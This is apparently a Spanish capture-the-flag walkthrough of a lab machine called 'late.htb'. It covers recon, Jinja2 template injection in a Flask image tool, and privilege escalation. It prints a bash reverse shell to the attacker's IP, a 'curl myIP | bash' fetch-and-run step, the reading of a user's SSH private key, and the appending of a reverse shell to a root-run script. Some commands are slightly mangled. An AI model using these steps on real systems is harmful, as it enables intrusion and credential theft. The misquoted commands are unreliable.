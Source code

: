 
### RECONOCIMIENTO

Comenzamos con [[Nmap]].

Encontramos el puerto 80 (tiene un servidor web corriendo).

### PÁGINA WEB

Encontramos un lugar en el que puedo escribir cosas, vamos a hacer pruebas, pero cómo nos devuelve nada, no parece interesante.

Parece que esta herramienta es un editor de fotos.

Podemos pulsar sobre el enlace que nos dejan, y... ¡Vaya, parece que el enlace no carga ([[Virtual hosting]])!.

Modificamos el [[/etc/hosts]].

En el "image.late.htb", parece que estamos ante una web que convierte un texto en una imagen, vamos a hacer una prueba:

Cuándo tenemos una página web, que si nosotros metemos un código, y sea misma página nos lo reporta de alguna manera, pensamos en la [[ssti]].

### SSTI

En github tenemos un repositorio que se llama "payloads all the things".

Pues buscamos la de "ssti" y en el repo, buscamos la de "[[Server Side Template Inyection]]". 

En este caso, usaremos la de Python - Jinja2, ya que la página usa Flask (que es de Python). 

Inscrustamos una línea de esas de código, le echamos un pantallazo y comprobamos a ver si la página nos hace el cambio (y así, podríamos afirmar que se puede hacer control remoto).

Cómo sabemos que podemos incrustar código, incrustamos el mítico:

>#!/bin/bash
>bash -i >& /dev/tcp/myIP (eth0)/port 0>&1

Eso dentro de un archivo, y lo subimos a un servidor python, entonces, junto con lo del Jinja2, en el código de esa vulnerabilidad tenemos que hacer que nos descargue ese archivo que queremos que nos descargue y que lo abra con bash:

>curl myIP | bash

## DENTRO DE LA MÁQUINA

>[[script /dev/null -c bash]]

Para ponerla aún mejor:

> `control + z`
> [[stty -raw echo; fg]]
> `reset xterm`
> [[export TERM=Xterm]]

Y ahora tenemos la shell más interactica.

### ESCALADA DE PRIVILEGIOS

**Primera alternativa:**
- `sudo -l`
- Unas veces funciona, otras no.

**Segunda alternativa:**
- [[find]] / -user userName 2>/dev/null | grep [[.sh]]
- Encontramos un archivo en el directorio sbin que podría ser interesante (ssh-alert.sh).
- No podemos modificarlo, pero podemos añadir información al final del documento, por ejemplo.
- Vemos que ese script dice algo de SSH (sospechamos).

Hacemos:
>	`cat ~/.ssh/id_rsa`
>	
>	Si yo copio en mi ordenador esta clave, yo luego puedo entrar sin proporcionar contraseña por vía SSH, aprovechándome del puerto 22 (que sabemos que está ya abierto).

La copiamos y la pegamos en un archivo de nuestra máquina virtual, y la llamamos, por ejemplo, id_rsa.

En la máquina víctima, vamos a añadir texto (sin nano, sin vim...):
> 	`echo "bash -i >& /dev/tcp/myIP (eth0)/port 0>&1" >> ssh-alert.sh`

Y nos ponemos en escucha por otra ventana de nuestra máquina virtual...

Antes de ponernos en escucha, tenemos que darle permisos a nuestra archivo para poder iniciar sesión por SSH (desde nuestra máquina):
> `sudo chmod 600 id_rsa`

Ahora podemos conectarnos por SSH (desde nuestra máquina):
> `sudo svc_acc@10.10.11.156 -i id_rsa`

Entonces, por el puerto por el que estábamos en escucha, hemos obtenido el acceso a root.




